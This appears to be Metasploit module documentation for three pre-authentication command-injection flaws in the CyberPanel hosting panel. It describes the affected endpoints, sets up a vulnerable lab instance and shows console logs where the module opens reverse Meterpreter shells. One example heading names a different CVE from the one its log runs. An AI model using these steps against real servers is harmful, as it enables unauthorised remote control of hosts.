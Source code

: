 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
`ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
`/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
requests) and using shell metacharacters in the `statusfile` property.
This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
This vulnerability has similarly been exploited in the wild in October 2024
by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51568**: CyberPanel (aka Cyber Panel) before 2.3.5 allows command
injection via completePath in the ProcessUtilities.outputExecutioner() sink.
This vulnerability includes unauthenticated remote code execution via shell
metacharacters in the /filemanager/upload (aka File Manager upload) endpoint,
exploiting shell metacharacters for arbitrary command execution.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
   - Install CyberPanel: Select option `1`
   - Install CyberPanel with OpenLiteSpeed: Select option `1`
   - Skip full installation (choose `n`)
   - Skip Postfix, PowerDNS, and PureFTPd installations
   - Skip Remote MySQL setup
   - Install CyberPanel version `2.3.4` when prompted
   - Decline Memcached and Redis installations

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567`, `cve-2024-51568` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions 

Exploit actions:

       Name            Description
       ----            -----------
       CVE-2024-51378  Exploit using CVE-2024-51378
   =>  CVE-2024-51567  Exploit using CVE-2024-51567
       CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: ptcsu2Gumssya7hVSDpZXsPse0wu0kCoW4BsEMrXj0rmeX4CvsUwPDPbXNQIJXgJ
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.16:48380) at 2024-10-31 22:01:34 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions

Exploit actions:

       Name            Description
       ----            -----------
   =>  CVE-2024-51378  Exploit using CVE-2024-51378
       CVE-2024-51567  Exploit using CVE-2024-51567
       CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: kbMIa2vWhrrlbTjMr1HVvX4IyecR3ENVkQwrJj7qZcXqAwYvo7a6d7MBQUxYnqaX
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.16:48384) at 2024-10-31 22:02:36 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Example: CVE-2024-51567 on CyberPanel 2.3.4 (Ubuntu 18.04)

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions 

Exploit actions:

       Name            Description
       ----            -----------
       CVE-2024-51378  Exploit using CVE-2024-51378
       CVE-2024-51567  Exploit using CVE-2024-51567
   =>  CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: VRu68HihQzQ0UcDjDhwwGyQV4PjXLkcDzCGf0fuRGPR6f3DO4oEcZmIiuGCXkubX
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.16:38878) at 2024-11-01 08:42:53 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
